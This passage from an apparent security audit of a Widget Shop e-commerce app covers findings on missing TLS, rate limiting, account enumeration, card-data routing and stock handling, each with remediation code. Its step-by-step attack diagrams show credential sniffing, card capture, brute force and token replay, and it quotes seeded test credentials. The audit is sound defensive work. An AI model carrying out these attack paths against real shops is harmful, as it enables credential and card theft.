Design requirements violated: `DESIGN.md:81` (gateway is the sole public entry point), `:108-110` (TLS termination, rate limiting, token validation), `:99` (strict CSP, no `unsafe-inline`), `:996` (`web` and `api` must not be host-published).

**Description.** The architecture's single most load-bearing component is missing, and `web`'s nginx — a static file server with two naive `proxy_pass` blocks — is standing in for it. Consequences chain across the whole model. (a) `POST /api/auth/login` sends `{email, password}` over HTTP; a passive observer on the path harvests staff credentials (the seeded `admin@widgetshop.test` / `ChangeMe123!` pair from `README.md:20-22` is likely still valid) and every `Authorization: Bearer` header thereafter. (b) `POST /fauxpay/tokenize` sends full PAN + expiry + CVV over HTTP (F-07) — interception yields directly saleable card data. (c) Because there is no TLS, the `Secure` cookie attribute F-03's remediation depends on cannot function, and `SameSite` enforcement is meaningless. (d) With no `limit_req`, the login brute force in F-05, the tokenization card-testing loop in F-02, and the stock-drain loop in F-08 all run at full request rate from a single host. (e) With no `Content-Security-Policy`, `X-Content-Type-Options`, `X-Frame-Options`, or `Referrer-Policy`, an injected script has no obstacle to exfiltrating the `localStorage` token (F-03), and the SPA can be framed for clickjacking against admin actions.

```mermaid
sequenceDiagram
    actor V as Victim (CS agent)
    participant B as Browser
    participant MITM as Attacker on network path
    participant NG as nginx :8080 (HTTP, no TLS)
    participant API
    participant FP as fauxpay
    V->>B: Log in on shared Wi-Fi
    B->>NG: POST /api/auth/login {email, password}   (cleartext TCP)
    MITM->>MITM: tcpdump / ARP spoof captures body
    Note over MITM: EXPLOIT SUCCEEDS (1) — staff credentials in plaintext
    NG->>API: proxy_pass
    API-->>B: 200 {token: 12h JWT role=customer_service}
    B->>NG: GET /api/cs/orders  (Authorization: Bearer ...)
    MITM->>MITM: captures bearer token
    Note over MITM: EXPLOIT SUCCEEDS (2) — 12h staff token, no revocation (F-03)
    V->>B: Customer checkout on same network
    B->>NG: POST /fauxpay/tokenize {card_number, exp, cvv}  (cleartext)
    MITM->>MITM: captures full PAN + CVV
    Note over MITM: EXPLOIT SUCCEEDS (3) — raw card data (F-07)
    MITM->>NG: 100k x POST /api/auth/login (no limit_req anywhere)
    NG->>API: proxy_pass, unthrottled
    Note over MITM,API: EXPLOIT SUCCEEDS (4) — unbounded credential stuffing (F-05)
    MITM->>B: Injected script; no CSP header to block it
    B->>MITM: localStorage token exfiltrated
```

**Root cause.** The design's dedicated edge tier — TLS terminator, rate limiter, and token pre-validator — was never built, and its responsibilities were silently inherited by a static-asset nginx that implements none of them, leaving every trust boundary between the internet and the application unenforced.

**Remediation — introduce the specified TLS-terminating API Gateway as the sole published container, with rate-limit zones, HSTS/CSP headers, and internal-only app services.**

New `gateway/nginx.conf`:
```nginx
# Rate-limit zones (DESIGN 3.3): most aggressive on auth, tight on tokenize.
limit_req_zone $binary_remote_addr zone=auth:10m      rate=5r/m;
limit_req_zone $binary_remote_addr zone=tokenize:10m  rate=10r/m;
limit_req_zone $binary_remote_addr zone=api:10m       rate=60r/m;
limit_conn_zone $binary_remote_addr zone=conns:10m;

server {                                   # redirect all cleartext
    listen 80 default_server;
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl http2;
    server_name widgetshop.example;

    ssl_certificate     /etc/nginx/tls/fullchain.pem;
    ssl_certificate_key /etc/nginx/tls/privkey.pem;
    ssl_protocols       TLSv1.2 TLSv1.3;
    ssl_ciphers         ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES256-GCM-SHA384;
    ssl_prefer_server_ciphers off;
    ssl_session_cache   shared:SSL:10m;

    add_header Strict-Transport-Security "max-age=63072000; includeSubDomains" always;
    add_header Content-Security-Policy "default-src 'none'; script-src 'self'; style-src 'self' https://fonts.googleapis.com; font-src https://fonts.gstatic.com; img-src 'self' data:; connect-src 'self'; frame-ancestors 'none'; base-uri 'none'; form-action 'self'" always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header Referrer-Policy "no-referrer" always;
    add_header X-Frame-Options "DENY" always;

    client_max_body_size 64k;
    limit_conn conns 20;

    location ~ ^/api/auth/(login|register|forgot-password|reset-password)$ {
        limit_req zone=auth burst=3 nodelay;
        limit_req_status 429;
        proxy_pass http://api:3000;
        proxy_set_header Host $host;
        proxy_set_header X-Forwarded-Proto https;
        proxy_set_header X-Forwarded-For $remote_addr;
    }

    location /api/ {
        limit_req zone=api burst=20 nodelay;
        proxy_pass http://api:3000;
        proxy_set_header Host $host;
        proxy_set_header X-Forwarded-Proto https;
        proxy_set_header X-Forwarded-For $remote_addr;
    }

    location / {                            # SPA static assets from web
        proxy_pass http://web:80;
        proxy_set_header Host $host;
    }
    # NOTE: no /fauxpay/ location — the processor is not publicly reachable (F-02).
}
```

`docker-compose.yml` — gateway becomes the only published service:
```yaml
services:
  gateway:
    build: ./gateway
    ports: ["443:443", "80:80"]
    volumes: ["./gateway/tls:/etc/nginx/tls:ro"]
    depends_on: [web, api]
    networks: [frontend]
  web:
    build: ./web
    expose: ["80"]          # was: ports: ["8080:80"]
    networks: [frontend]
  api:
    expose: ["3000"]
    networks: [frontend, backend]
```

Also enable TLS on the database leg in `api/src/db/knexfile.js`:
```js
  connection: {
    ...,
    ssl: process.env.DB_SSL === 'false' ? false : { rejectUnauthorized: true, ca: process.env.DB_CA_CERT },
  },
```
and add `helmet` in `api/src/app.js` as defense in depth so headers survive a gateway misconfiguration: `app.use(require('helmet')({ contentSecurityPolicy: false }));`.

*Why this closes the gap:* TLS with HSTS removes the plaintext interception path for credentials, tokens, and card data in one move and makes the `Secure` cookie attribute in F-03 real rather than nominal; the named `limit_req` zones put a hard per-IP ceiling on exactly the flows F-05/F-02/F-08 abuse; and a `default-src 'none'`-based CSP with no `unsafe-inline` denies an injected script both execution and an outbound `connect-src` to exfiltrate to. Serving the SPA and API from one gateway origin also eliminates the need for the wildcard CORS of F-11a.

**OWASP mapping.** A02:2021 Cryptographic Failures; A05:2021 Security Misconfiguration; A04:2021 Insecure Design. API Security Top 10: API8 Security Misconfiguration, API4 Unrestricted Resource Consumption. ASVS v5.0: V9.1 (TLS for all client connectivity, HSTS), V9.2 (TLS for server-to-server incl. database), V13.4 (HTTP security headers, CSP), V2.2.1 (anti-automation on authentication).

---

### F-05 — No account lockout or rate limiting on login/register: unlimited credential stuffing

**Severity: High** (Impact 4, Likelihood 5, Complexity 5)

- **Impact — Severe.** Guessing the seeded `admin@widgetshop.test` or `support@widgetshop.test` password yields the full staff capability set, including refunds. Guessing customer passwords yields PII and order history at scale.
- **Likelihood — Certain.** Unauthenticated login endpoints with no throttle are attacked continuously by commodity botnets; the seeded account names and their password are printed in `README.md:20-22`.
- **Complexity — Low.** `hydra`, `ffuf`, or a ten-line script. No privileges, no technical depth.

**Evidence**

`api/src/routes/auth.js:37-53` — the complete login handler: no attempt counter, no lockout check, no delay, no CAPTCHA:
```js
router.post('/login', asyncHandler(async (req, res) => {
  const { email, password } = req.body || {};
  if (!email || !password) return res.status(400).json({ error: 'email and password are required' });
  const user = await db('users').where({ email }).first();
  if (!user || !(await bcrypt.compare(password, user.password_hash))) {
    return res.status(401).json({ error: 'Invalid email or password' });
  }
  const token = jwt.sign({ sub: user.id, email: user.email, role: user.role }, JWT_SECRET, { expiresIn: '12h' });
```
`api/src/db/migrations/20260101000001_create_users.js:2-9` — the `users` table has **no** `failed_login_attempts` and **no** `locked_until` columns, so the lockout mechanism `DESIGN.md:143` and `DESIGN.md:375-381` specify has no storage:
```js
table.increments('id').primary();
table.string('email').notNullable().unique();
table.string('password_hash').notNullable();
table.string('full_name');
table.enu('role', ['customer','admin','customer_service']).notNullable().defaultTo('customer');
table.timestamp('created_at').defaultTo(knex.fn.now());
```
No `express-rate-limit` dependency (`api/package.json:12-21`) and no `limit_req` at the edge (`web/nginx.conf`, F-04), so neither of the design's two layers (`DESIGN.md:109`) exists. Password policy is also minimal — `auth.js:16-18` requires only 8 characters, with no complexity or breached-password check, enlarging the guessable space that this missing throttle would otherwise contain.

**Description.** Both defense layers the design calls for — gateway rate limiting and per-account lockout — are entirely absent, so an attacker can test passwords against any account at whatever rate the server sustains, indefinitely, from a single IP, with no lockout, no alerting, and (per F-11) no log. The highest-value targets are named in the repository's own README: `support@widgetshop.test` unlocks `POST /api/cs/orders/:id/refunds` (money movement) and the full customer database via `GET /api/cs/orders`. The same gap makes registration abusable: an unthrottled `POST /api/auth/register` lets an attacker enumerate which emails are registered via the distinguishing 409 (F-06) at thousands of attempts per minute, and mass-create accounts (each of which also inserts a `carts` row, `auth.js:31`) to bloat the database. bcrypt cost 10 provides some per-guess cost but is nowhere near a substitute for a throttle — it is also a CPU amplification lever: concurrent login attempts pin the single-threaded Node event loop, degrading the API for legitimate users.



**Root cause.** Authentication has no anti-automation control at any layer: the schema lacks the lockout state the design specified, the application has no throttling middleware, and the edge has no rate-limit zone — so the cost of an authentication guess to the attacker is effectively zero.

**Remediation — stateful per-account lockout (design 7.1c) plus per-IP/per-account sliding-window throttling, and rotate the seeded credentials.**

Migration (`api/src/db/migrations/20260101000011_add_login_throttle.js`):
```js
exports.up = function (knex) {
  return knex.schema.alterTable('users', (t) => {
    t.integer('failed_login_attempts').notNullable().defaultTo(0);
    t.timestamp('locked_until');
    t.timestamp('last_login_at');
  });
};
exports.down = (knex) => knex.schema.alterTable('users', (t) => {
  t.dropColumn('failed_login_attempts'); t.dropColumn('locked_until'); t.dropColumn('last_login_at');
});
```

`api/src/routes/auth.js` — replace the login handler:
```js
const rateLimit = require('express-rate-limit');

const MAX_ATTEMPTS = 5;
const LOCK_MS = 15 * 60 * 1000;

// Layer 1: per-IP anti-automation in front of the credential check.
const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000,
  limit: 10,
  standardHeaders: true,
  keyGenerator: (req) => `${req.ip}:${String(req.body?.email || '').toLowerCase()}`,
  message: { error: 'Too many attempts, please try again later' },
});

router.post('/login', loginLimiter, asyncHandler(async (req, res) => {
  const { email, password } = req.body || {};
  if (typeof email !== 'string' || typeof password !== 'string') {
    return res.status(400).json({ error: 'email and password are required' });
  }
  const user = await db('users').where({ email }).first();

  // Layer 2: per-account lockout, checked BEFORE the password (DESIGN 7.1c step 2).
  if (user?.locked_until && new Date(user.locked_until) > new Date()) {
    req.log?.warn({ event: 'auth.login.locked', user_id: user.id, ip: req.ip });
    return res.status(423).json({ error: 'Account temporarily locked, try again later' });
  }

  // Constant-work comparison so a missing account is not distinguishable by timing.
  const hash = user?.password_hash || '$2a$10$invalidinvalidinvalidinvalidinvalidinvalidinvalidinvalidinv';
  const ok = await bcrypt.compare(password, hash);

  if (!user || !ok) {
    if (user) {
      const attempts = user.failed_login_attempts + 1;
      const patch = { failed_login_attempts: attempts };
      if (attempts >= MAX_ATTEMPTS) patch.locked_until = new Date(Date.now() + LOCK_MS);
      await db('users').where({ id: user.id }).update(patch);
      req.log?.warn({ event: 'auth.login.failure', user_id: user.id, attempts, ip: req.ip });
    }
    return res.status(401).json({ error: 'Invalid email or password' });
  }

  await db('users').where({ id: user.id })
    .update({ failed_login_attempts: 0, locked_until: null, last_login_at: db.fn.now() });
  req.log?.info({ event: 'auth.login.success', user_id: user.id, role: user.role, ip: req.ip });
  const token = await issueSession(res, user);   // from F-03
  res.json({ token, user: { id: user.id, email: user.email, full_name: user.full_name, role: user.role } });
}));

// Apply the same limiter to registration (and any future forgot-password route).
router.post('/register', rateLimit({ windowMs: 60 * 60 * 1000, limit: 5, keyGenerator: (r) => r.ip }), /* ...handler... */);
```
Strengthen the password rule at `auth.js:16-18` to a 12-character minimum screened against a breached-password list (ASVS V2.1.7), and change the seeded staff passwords to per-deployment random values (remove the literal from `README.md:20-22` and `api/src/db/seeds/01_initial_data.js:16`, reading `process.env.SEED_ADMIN_PASSWORD` instead and failing if unset). Pair with the gateway `limit_req zone=auth rate=5r/m` from F-04 so the throttle survives a bypass of the app layer.

*Why this closes the gap:* the per-account `locked_until` cooldown caps the total guesses any attacker can make against a *specific* high-value account regardless of how many IPs they rotate through, while the per-IP/per-email limiter caps horizontal spraying across many accounts — together they close both the vertical and horizontal credential-stuffing paths that a single-layer control leaves open. Checking the lock before the password also removes bcrypt as a CPU-amplification lever.

**OWASP mapping.** A07:2021 Identification and Authentication Failures; A04:2021 Insecure Design. API Security Top 10: API2 Broken Authentication, API4 Unrestricted Resource Consumption. ASVS v5.0: V2.2.1 (anti-automation controls on authentication), V2.2.3 (account lockout), V2.1.7 (breached-password screening), V7.2.2 (logging of authentication decisions).

---

### F-06 — Registration discloses account existence and never verifies email ownership

**Severity: Medium** (Impact 3, Likelihood 4, Complexity 5)

- **Impact — Major functional/privacy disruption.** The enumeration half hands an attacker a validated target list for the unthrottled brute force in F-05 and for off-platform phishing. The unverified-email half lets an attacker pre-register an address they do not control, and lets any user place orders and publish reviews under an email that reaches someone else.
- **Likelihood — Very Likely.** Trivially discoverable by submitting one known-good and one random email and comparing responses; automated account-checker tooling does this by default.
- **Complexity — Low.** Two `curl` requests to see the difference; a loop to industrialize it.

**Evidence**

`api/src/routes/auth.js:20-23` — a distinct, explicit status code and message for an existing address, contrasted with `DESIGN.md:363`'s requirement that account existence not be leaked ("regardless of whether a match is found, it returns the same generic response"):
```js
const existing = await db('users').where({ email }).first();
if (existing) {
  return res.status(409).json({ error: 'An account with that email already exists' });
}
```
`api/src/routes/auth.js:26-34` — the account becomes fully usable and a 12-hour token is issued immediately; there is no verification token, no `email_verified` column (absent from `20260101000001_create_users.js`), and no email provider integration anywhere in the codebase:
```js
const [row] = await db('users').insert({ email, password_hash, full_name, role: 'customer' }).returning([...]);
...
await db('carts').insert({ user_id: user.id });
const token = jwt.sign({ sub: user.id, email: user.email, role: user.role }, JWT_SECRET, { expiresIn: '12h' });
res.status(201).json({ token, user });
```
Note also that `email` is inserted without normalization or format validation — the only format check is the SPA's `type="email"` attribute (`web/src/pages/Register.jsx:38`), which is client-side and trivially bypassed, so `Admin@Widgetshop.test` and `admin@widgetshop.test` are distinct rows despite the unique index.

**Description.** Two related trust failures in one flow. First, enumeration: the 409-versus-201 distinction turns `POST /api/auth/register` into an oracle for "is this address a Widget Shop customer?", which — with no rate limiting (F-05) — an attacker runs over a breach corpus to build a target list, then feeds directly into credential stuffing or into "your Widget Shop order has a problem" phishing that is credible precisely because the recipient *is* a customer. Second, unverified identifiers: the uniqueness constraint guarantees no two accounts share an email but says nothing about whether the one account holding `victim@corp.com` belongs to that mailbox's owner. An attacker registers `ceo@victim-corp.com`, and the system thereafter treats that address as a verified party — it is the login identifier, it is what CS searches on (`cs.js:14`) and displays to agents as `customer_email` (`web/src/pages/CustomerService.jsx:75`), and the attacker-chosen `full_name` is published on public review pages (`reviews.js:14`, rendered at `WidgetDetail.jsx:189`). That enables reputational attacks (posting reviews that appear to come from a named person or organization) and social-engineering of CS agents who reasonably assume the email on an order identifies the customer. It also pre-empts the real owner, who will be told the address is already taken (via the 409) and — since no password-reset flow exists at all (F-03) — has no path to recover it. `full_name` is likewise unvalidated and unbounded (F-12).



**Root cause.** The registration flow treats a client-supplied email as both a uniqueness key and a proof of identity: it enforces that the value is unique but never confirms the submitter controls the mailbox, and it distinguishes the "already taken" case in its response, converting the uniqueness check into an existence oracle.

**Remediation — uniform registration response plus a double-opt-in email verification gate before privileged capabilities.**

Migration:
```js
exports.up = (knex) => knex.schema
  .alterTable('users', (t) => { t.timestamp('email_verified_at'); })
  .createTable('email_verification_tokens', (t) => {
    t.increments('id').primary();
    t.integer('user_id').unsigned().notNullable().references('id').inTable('users').onDelete('CASCADE');
    t.string('token_hash').notNullable().unique();   // sha256, never plaintext
    t.timestamp('expires_at').notNullable();
    t.timestamp('used_at');
    t.timestamp('created_at').defaultTo(knex.fn.now());
  });
```

`api/src/routes/auth.js` — identical response on both branches, work done out of band:
```js
const crypto = require('crypto');
const sha256 = (s) => crypto.createHash('sha256').update(s).digest('hex');
const GENERIC = { message: 'Check your email to finish creating your account.' };

router.post('/register', registerLimiter, asyncHandler(async (req, res) => {
  const { email, password, full_name } = req.body || {};
  if (typeof email !== 'string' || typeof password !== 'string') {
    return res.status(400).json({ error: 'email and password are required' });
  }
  const normalized = email.trim().toLowerCase();
  if (!/^[^\s@]+@[^\s@]+\.[^\s@]+$/.test(normalized) || normalized.length > 254) {
    return res.status(400).json({ error: 'A valid email address is required' });
  }
  if (password.length < 12) {
    return res.status(400).json({ error: 'password must be at least 12 characters' });
  }
  const name = typeof full_name === 'string' ? full_name.slice(0, 100) : null;

  const existing = await db('users').where({ email: normalized }).first();
  if (existing) {
    // Same status, same body, same timing class as the success path.
    // Tell the *mailbox owner* — not the requester — that a duplicate attempt occurred.
    await sendAccountExistsNotice(normalized);
    return res.status(202).json(GENERIC);
  }

  const password_hash = await bcrypt.hash(password, 12);
  const token = crypto.randomBytes(32).toString('base64url');
  await db.transaction(async (trx) => {
    const [row] = await trx('users')
      .insert({ email: normalized, password_hash, full_name: name, role: 'customer' })
      .returning(['id']);
    const userId = row.id ?? row;
    await trx('carts').insert({ user_id: userId });
    await trx('email_verification_tokens').insert({
      user_id: userId, token_hash: sha256(token),
      expires_at: new Date(Date.now() + 24 * 60 * 60 * 1000),
    });
  });
  await sendVerificationEmail(normalized, token);   // plaintext token only ever in the email
  // No session issued here: the account is inert until the mailbox is proven.
  res.status(202).json(GENERIC);
}));

router.post('/verify-email', asyncHandler(async (req, res) => {
  const row = await db('email_verification_tokens')
    .where({ token_hash: sha256(String(req.body?.token || '')) }).first();
  if (!row || row.used_at || row.expires_at <= new Date()) {
    return res.status(400).json({ error: 'Invalid or expired verification link' });
  }
  await db.transaction(async (trx) => {
    await trx('users').where({ id: row.user_id }).update({ email_verified_at: trx.fn.now() });
    await trx('email_verification_tokens').where({ id: row.id }).update({ used_at: trx.fn.now() });
  });
  res.json({ message: 'Email verified — you can now log in.' });
}));
```

Then gate the capabilities that depend on the address actually identifying the party, with a middleware applied to `api/src/routes/orders.js`, `api/src/routes/reviews.js` (POST/PATCH), and `api/src/routes/cart.js`:
```js
// api/src/middleware/auth.js
async function requireVerifiedEmail(req, res, next) {
  const u = await db('users').where({ id: req.user.sub }).select('email_verified_at').first();
  if (!u?.email_verified_at) {
    return res.status(403).json({ error: 'Please verify your email address to continue' });
  }
  next();
}
```
Add a unique index on the normalized value so casing cannot create duplicates: `knex.raw('CREATE UNIQUE INDEX users_email_lower_uniq ON users (lower(email))')`. Login must return the same generic 401 for unverified accounts as for bad passwords so verification state is not itself an oracle.

*Why this closes the gap:* returning an identical `202` body on both branches removes the response-differential oracle entirely (rather than merely slowing it), while routing the "account already exists" signal to the mailbox owner preserves the legitimate user-experience need without disclosing anything to the requester. Double opt-in means the only party who can activate an account for `victim@corp.com` is whoever can read that mailbox, so the email address becomes a *proven* identifier that CS agents and public review bylines can safely rely on — and `requireVerifiedEmail` ensures an unproven account cannot transact or publish in the interim.

**OWASP mapping.** A07:2021 Identification and Authentication Failures; A04:2021 Insecure Design; A01:2021 Broken Access Control (unverified principal reaching privileged flows). API Security Top 10: API2 Broken Authentication, API6 Unrestricted Access to Sensitive Business Flows, API3 Broken Object Property Level Authorization (unvalidated `full_name` published publicly). ASVS v5.0: V2.1 (registration/enumeration resistance — uniform responses), V2.5 (out-of-band verifier / email ownership proof), V1.2.3 (identity proofing before privileged capability).

---

### F-07 — Raw PAN/CVV routed through our own nginx; stored card token is a reusable bearer value

**Severity: High** (Impact 4, Likelihood 3, Complexity 4)

- **Impact — Severe.** Full cardholder data (PAN + expiry + CVV — the last being data that PCI-DSS forbids storing at all) traverses infrastructure we operate, in cleartext. This pulls the `web` container, its nginx logs, and the Docker host into PCI-DSS scope, invalidating the design's core scope-reduction claim and creating both a breach path and a compliance exposure.
- **Likelihood — Likely.** Interception requires a network position (F-04 makes it cleartext), but the architectural condition — our container handling PAN — is unconditionally true right now, and a single nginx `log_format` change or a debug `proxy_store`/`access_log` addition would persist PAN to disk.
- **Complexity — Low to Medium.** Observing the traffic needs LAN access or host access; reading it once there requires no skill.

**Evidence**

`web/src/api/client.js:1-4` — the comment asserts the opposite of what the code does: the request goes to *our* origin, not the processor's:
```js
// FauxPay is reached through the same-origin `/fauxpay` proxy path (see
// nginx.conf / vite.config.js) rather than a directly published port, so the
// card-tokenization request never has to cross origins.
const FAUXPAY_BASE_URL = '/fauxpay';
```
`web/src/api/client.js:77-86` — full PAN, expiry, and CVV are POSTed to that same-origin path:
```js
export async function tokenizeCard({ card_number, exp_month, exp_year, cvv }) {
  const res = await fetch(`${FAUXPAY_BASE_URL}/tokenize`, {
    method: 'POST', headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ card_number, exp_month, exp_year, cvv }),
  });
```
`web/nginx.conf:12-15` — our container receives and forwards the cardholder data, so it is unambiguously in the cardholder data environment. `fauxpay/src/server.js:27-28` repeats the false assurance in a comment ("never routed through our own backend, so raw card data never touches our servers"). Contrast `DESIGN.md:345`: "accepts card details **directly from the client-side SPA to the processor**, never through our backend"; and `DESIGN.md:82`, `:900` ("no raw card data at rest", client-side tokenization for PCI scope reduction).
`api/src/routes/orders.js:80` — the processor token is persisted and is never scoped to a user, order, or single use:
```js
      processor_card_token: card_token,
```
`fauxpay/src/server.js:38-40` — tokens never expire and are not bound to any principal; any caller presenting one to `/charge` (publicly reachable per F-02) can charge that card:
```js
  const token = `tok_${crypto.randomBytes(16).toString('hex')}`;
  tokens.set(token, { last4: card_number.slice(-4), brand: detectBrand(card_number) });
```

**Description.** The design's PCI posture rests on one property: cardholder data goes browser to processor and never touches our systems. The implementation breaks it by proxying tokenization through our own nginx to keep the request same-origin. Every checkout therefore streams PAN + CVV through a container we build, run, and log — over plaintext HTTP (F-04), so anyone on the network path captures saleable card data, and anyone with host or container access (or who enables body/request logging, or who inspects an nginx core dump) captures it at rest. Independently, the token FauxPay returns is a pure bearer value: unbound to a user, unbound to an amount, valid forever, and reusable any number of times. Our API accepts whatever `card_token` the client sends in `POST /api/orders` with no check that this caller is the one who tokenized that card (`orders.js:12-13`), and we then store it in `payments.processor_card_token`. Combined with F-02's internet-reachable `/fauxpay/charge`, an attacker who obtains any token — by sniffing the tokenize response, by reading it from a victim's browser, or from a database/backup copy — can charge that card arbitrarily, with no order and no trace in our ledger. The CVV is also accepted and held in the request path, which PCI-DSS prohibits from being stored post-authorization under any circumstances.

```mermaid
sequenceDiagram
    actor C as Customer
    participant B as Browser (SPA)
    participant NG as nginx (OUR container — now in PCI CDE)
    participant FP as fauxpay
    participant Atk as Attacker
    participant API
    C->>B: Enter card number, expiry, CVV
    B->>NG: POST /fauxpay/tokenize {card_number, exp_month, exp_year, cvv}
    Note over NG: DESIGN 6 says this must go browser -> processor directly;<br/>instead OUR nginx receives full PAN + CVV in cleartext (F-04)
    Atk->>NG: Network capture on path / host access / nginx log_format change
    NG-->>Atk: Full PAN + expiry + CVV
    Note over Atk: EXPLOIT SUCCEEDS (1) — saleable cardholder data from our own tier
    NG->>FP: proxy_pass /tokenize
    FP-->>B: 201 {card_token} (non-expiring, unbound to any user)
    Atk->>NG: (also captures the token in the response)
    B->>API: POST /api/orders {shipping_address_id, card_token}
    API->>API: no check that this caller tokenized this card
    API->>FP: POST /charge {card_token, amount_cents}
    API->>API: INSERT payments.processor_card_token = card_token (stored, reusable)
    Note over Atk,FP: Phase 2 — reuse the bearer token via the public proxy (F-02)
    Atk->>NG: POST /fauxpay/charge {card_token, amount_cents:500000}<br/>Authorization: Bearer fauxpay_test_key
    NG->>FP: proxy_pass /charge
    FP-->>Atk: 201 {transaction_id, status:'captured'}
    Note over Atk,FP: EXPLOIT SUCCEEDS (2) — victim's card charged,<br/>no order, nothing in our payments/refunds ledger
```

**Root cause.** Same-origin convenience was chosen over trust-boundary separation, placing our web tier inside the cardholder data environment; and the processor token is treated as a capability that anyone holding it may exercise, rather than a credential bound to the customer, order, and amount that created it.

**Remediation — processor-hosted fields (browser to processor, our origin excluded) plus single-use, order-bound payment intents.**

1. **Take our infrastructure out of the card path.** Delete `tokenizeCard` and `FAUXPAY_BASE_URL` from `web/src/api/client.js` and the `/fauxpay/` block from `web/nginx.conf` (and the `/fauxpay` proxy from `web/vite.config.js:10-13`). Embed the processor's hosted field / iframe so card input is rendered and submitted by the processor's own origin, and only the token crosses back via `postMessage`:

```jsx
// web/src/pages/Checkout.jsx — card inputs replaced by a processor-hosted iframe.
// Raw PAN/CVV are entered into an origin we do not control and never reach our containers.
const PROCESSOR_ORIGIN = import.meta.env.VITE_PROCESSOR_ORIGIN; // e.g. https://js.processor.com

function HostedCardFields({ onToken, onError }) {
  useEffect(() => {
    function handle(e) {
      if (e.origin !== PROCESSOR_ORIGIN) return;            // strict origin check
      if (e.data?.type === 'card_token') onToken(e.data.card_token);
      if (e.data?.type === 'card_error') onError(e.data.message);
    }
    window.addEventListener('message', handle);
    return () => window.removeEventListener('message', handle);
  }, [onToken, onError]);

  return <iframe title="Card details" src={`${PROCESSOR_ORIGIN}/hosted-fields`}
                 sandbox="allow-scripts allow-forms" style={{ width: '100%', height: 220, border: 0 }} />;
}
```
Add `frame-src https://js.processor.com;` to the gateway CSP (F-04) and keep `connect-src 'self'` so the SPA cannot post card data anywhere else.

2. **Make the token single-use and bound to the transaction.** Replace the raw token with a processor *payment intent* created server-side for a specific amount and order, so a captured token has no standalone value. In `fauxpay/src/server.js` (modelling the real gateway contract):

```js
// Tokens become single-use and amount-bound at creation.
app.post('/tokenize', (req, res) => {
  const { card_number, exp_month, exp_year, cvv } = req.body || {};
  ...
  const token = `tok_${crypto.randomBytes(32).toString('hex')}`;
  tokens.set(token, {
    last4: card_number.slice(-4), brand: detectBrand(card_number),
    consumed: false, expires_at: Date.now() + 10 * 60 * 1000,   // 10-minute window
  });
  // CVV is used for this authorization only and is never retained.
  res.status(201).json({ card_token: token, expires_in: 600 });
});

app.post('/charge', requireApiKey, (req, res) => {
  const { card_token, amount_cents, order_id, idempotency_key } = req.body || {};
  const card = tokens.get(card_token);
  if (!card || card.consumed || card.expires_at < Date.now()) {
    return res.status(400).json({ error: 'Unknown or expired card_token' });
  }
  card.consumed = true;                       // single use — replay yields 400
  ...
});
```

3. **Bind the token to the authenticated customer in our API.** In `api/src/routes/orders.js`, record which user tokenized the card and refuse a mismatch, and stop persisting the token once charged:

```js
// After a successful charge, store only non-sensitive display metadata.
await db('payments').insert({
  order_id: order.id,
  processor_transaction_id: chargeResult.transaction_id,
  // processor_card_token intentionally NOT stored: it is single-use and consumed.
  amount_cents: totalCents,
  status: 'captured',
  card_last4: chargeResult.last4,
  card_brand: chargeResult.brand,
});
```
and drop the column: `knex.schema.alterTable('payments', (t) => t.dropColumn('processor_card_token'))`. If a stored instrument is ever required for repeat purchases, store the processor's *customer-scoped* payment-method id (usable only with our secret key against that customer) rather than a bare token, and re-verify on use that it belongs to `req.user.sub`.

*Why this closes the gap:* hosted fields mean PAN and CVV are entered into and submitted from the processor's origin, so our `web` container, its logs, and the host never see cardholder data — that is what actually restores the PCI scope reduction `DESIGN.md:23` claims, rather than merely encrypting a path that should not exist. Making the token single-use, short-lived, and consumed at charge time removes its value as a captured bearer credential, and not persisting it eliminates the database/backup as a card-charging capability store.

**OWASP mapping.** A02:2021 Cryptographic Failures (sensitive data exposure in transit and in an unintended tier); A04:2021 Insecure Design; A01:2021 Broken Access Control (unbound bearer capability). API Security Top 10: API1 Broken Object Level Authorization (token not bound to its owner), API3 Broken Object Property Level Authorization, API10 Unsafe Consumption of APIs. ASVS v5.0: V1.9/V8.1 (sensitive data identification and minimization — data not routed through systems that do not need it), V8.3.4 (sensitive data not logged), V9.1 (TLS for sensitive transport), V3.5 (capability tokens bound to a principal). PCI-DSS: Req. 3.2 (never store CVV/sensitive authentication data), Req. 4.1 (strong cryptography for PAN in transit), Req. 12 (CDE scope definition).

---

### F-08 — Stock is committed before payment and never restored on failure: anonymous-cost inventory wipe

**Severity: High** (Impact 4, Likelihood 4, Complexity 4)

- **Impact — Severe.** A single authenticated attacker can drive every widget's `stock_quantity` to zero (and negative) in seconds, making the entire catalog unpurchasable — a total denial of sales with no way for the business to distinguish it from real demand. Legitimate customers see "Out of stock"; the admin sees inventory that does not match the warehouse.
- **Likelihood — Very Likely.** The exploit is a bare loop against the normal checkout endpoint with a deliberately bad card token; it also occurs *accidentally* on every real declined card, so the corruption is guaranteed to happen even without an attacker.
- **Complexity — Low to Medium.** Needs one throwaway registered account (self-service, unverified per F-06) and a `for` loop; no technical depth, no privileges.

**Evidence**

`api/src/routes/orders.js:47-66` — stock is decremented inside a transaction that commits **before** the processor is contacted:
```js
  const order = await db.transaction(async (trx) => {
    const [orderRow] = await trx('orders').insert({ ... status: 'pending_payment', ... }).returning('id');
    const orderId = orderRow.id ?? orderRow;
    await trx('order_items').insert(lineItems.map((li) => ({ ...li, order_id: orderId })));
    for (const li of lineItems) {
      await trx('widgets').where({ id: li.widget_id }).decrement('stock_quantity', li.quantity);
    }
    return { id: orderId };
  });                                    // <-- COMMITTED: stock is gone
```
`api/src/routes/orders.js:68-74` — on charge failure the order is cancelled but **no compensating increment** is issued, and the cart is deliberately preserved so the attacker can immediately retry:
```js
  let chargeResult;
  try {
    chargeResult = await fauxpay.charge({ cardToken: card_token, amountCents: totalCents, orderId: order.id });
  } catch (err) {
    await db('orders').where({ id: order.id }).update({ status: 'cancelled' });
    return res.status(payErrorStatus(err)).json({ error: 'Payment failed', detail: err.data?.error });
  }
```
`fauxpay/src/server.js:46` guarantees the failure branch is reachable on demand — any unknown token returns 400:
```js
  if (!card) return res.status(400).json({ error: 'Unknown card_token' });
```
